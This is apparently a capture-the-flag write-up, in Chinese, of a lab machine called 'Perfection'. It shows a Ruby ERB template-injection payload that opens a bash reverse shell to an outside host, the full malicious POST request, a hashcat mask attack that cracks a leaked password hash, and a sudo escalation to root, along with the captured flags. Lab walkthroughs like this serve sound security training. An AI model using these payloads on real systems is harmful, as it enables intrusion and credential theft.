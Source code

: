 # Perfection

:::info

Difficulty: Easy

Operating System: Linux

:::

## 信息收集

```plaintext
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 80:e4:79:e8:59:28:df:95:2d:ad:57:4a:46:04:ea:70 (ECDSA)
|_  256 e9:ea:0c:1d:86:13:ed:95:a9:d0:0b:c8:22:e4:cf:e9 (ED25519)
80/tcp open  http    nginx
|_http-title: Weighted Grade Calculator
```

## web 服务

![img](img/image_20240323-102325.png)

使用 `Burp Suite` 进行抓包

```plaintext
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
Content-Length: 161
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.253
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.253/weighted-grade-calc
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

category1=as&grade1=1&weight1=100&category2=as&grade2=1&weight2=0&category3=as&grade3=1&weight3=0&category4=as&grade4=1&weight4=0&category5=as&grade5=1&weight5=0
```

## SSTI - Ruby

结合网站所使用的框架 `WEBrick 1.7.0` 信息，尝试使用 SSTI 进行注入

[SSTI (Server Side Template Injection) - HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#erb-ruby)

```plaintext
<%= system("bash -c'/bin/bash -i>& /dev/tcp/10.10.16.3/9999 0>&1'") %>
```

对其进行编码处理

```plaintext
abc%0a<%25=%20system("bash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.3%2F9999%200%3E%261%27")%20%25>
```

然后发包

```plaintext
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
Content-Length: 281
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.253
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.253/weighted-grade-calc
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close

grade1=1&weight1=100&category2=as&grade2=1&weight2=0&category3=as&grade3=1&weight3=0&category4=as&grade4=1&weight4=0&category5=as&grade5=1&weight5=0&category1=abc%0a<%25=%20system("bash%20-c%20%27%2Fbin%2Fbash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.3%2F9999%200%3E%261%27")%20%25>
```

即可收到回连的 shell

## User - susan

```shell
┌──(randark ㉿ kali)-[~]
└─$ pwncat-cs -lp 9999
[10:25:46] Welcome to pwncat 🐈!
[10:49:20] received connection from 10.10.11.253:55950
[10:49:29] 10.10.11.253:55950: registered new host w/ db
(local) pwncat$ back
(remote) susan@perfection:/home/susan/ruby_app$ whoami
susan
```

### flag - user

```shell
(remote) susan@perfection:/home/susan$ cat user.txt
ca7858ea6597f30db9a3318e380a8447
```

### 环境探测

```shell
(remote) susan@perfection:/home/susan$ ls -lah
total 48K
drwxr-x--- 7 susan susan 4.0K Feb 26 09:41 .
drwxr-xr-x 3 root  root  4.0K Oct 27 10:36 ..
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .bash_history -> /dev/null
-rw-r--r-- 1 susan susan  220 Feb 27  2023 .bash_logout
-rw-r--r-- 1 susan susan 3.7K Feb 27  2023 .bashrc
drwx------ 2 susan susan 4.0K Oct 27 10:36 .cache
drwx------ 3 susan susan 4.0K Oct 27 10:36 .gnupg
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .lesshst -> /dev/null
drwxrwxr-x 3 susan susan 4.0K Oct 27 10:36 .local
drwxr-xr-x 2 root  root  4.0K Oct 27 10:36 Migration
-rw-r--r-- 1 susan susan  807 Feb 27  2023 .profile
lrwxrwxrwx 1 root  root     9 Feb 28  2023 .python_history -> /dev/null
drwxr-xr-x 4 root  susan 4.0K Oct 27 10:36 ruby_app
lrwxrwxrwx 1 root  root     9 May 14  2023 .sqlite_history -> /dev/null
-rw-r--r-- 1 susan susan    0 Oct 27 06:41 .sudo_as_admin_successful
-rw-r----- 1 root  susan   33 Mar  9 02:04 user.txt
-rw-r--r-- 1 susan susan   39 Oct 17 12:26 .vimrc
```

在其中发现有 `.sqlite_history` 文件

同时，找到 `./Migration/pupilpath_credentials.db` 文件，下载到本地进行数据库读取

在数据库中，有 `user` 表

| id  |      name      |                             password                             |
| :-: | :------------: | :--------------------------------------------------------------: |
|  1  |  Susan Miller  | abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f |
|  2  |   Tina Smith   | dd560928c97354e3c22972554c81901b74ad1b35f726a11654b78cd6fd8cec57 |
|  3  |  Harry Tyler   | d33a689526d49d32a01986ef5a1a3d2afc0aaee48978f06139779904af7a6393 |
|  4  | David Lawrence | ff7aedd2f4512ee1848a3e18f86c4450c1c76f5c6e27cd8b0dc05557b344b87a |
|  5  | Stephen Locke  | 154a38b253b4e08cba818ff65eb4413f20518655950b9a39964c18d7737d9bb8 |

暂时无法确定哈希的格式

同时，找到一封邮件 `/var/spool/mail/susan`

```plaintext
Due to our transition to Jupiter Grades because of the PupilPath data breach, I thought we should also migrate our credentials ('our' including the other students

in our class) to the new platform. I also suggest a new password specification, to make things easier for everyone. The password format is:

{firstname}_{firstname backwards}_{randomly generated integer between 1 and 1,000,000,000}

Note that all letters of the first name should be convered into lowercase.

Please hit me with updates on the migration when you can. I am currently registering our university with the platform.

- Tina, your delightful student
```

### 密码哈希爆破

```shell
PS D:\_Tools\hashcat-6.2.6> .\hashcat.exe -m 1400 -a 3 abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f susan_nasus_?d?d?d?d?d?d?d?d?d --show
abeb6f8eb5722b8ca3b45f6f72a0cf17c7028d62a15a30199347d9d74f39023f:susan_nasus_413759210
```

得到密码之后，就可以访问 `sudo` 了

```shell
(remote) susan@perfection:/var/spool/mail$ sudo -l
[sudo] password for susan: <susan_nasus_413759210>
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```

## User - root

```shell
(remote) susan@perfection:/var/spool/mail$ sudo -i
root@perfection:~# whoami
root
```

### flag - root

```shell
root@perfection:~# cat root.txt
49af4f82e3665ca3d0f3187ea474e5f8
```
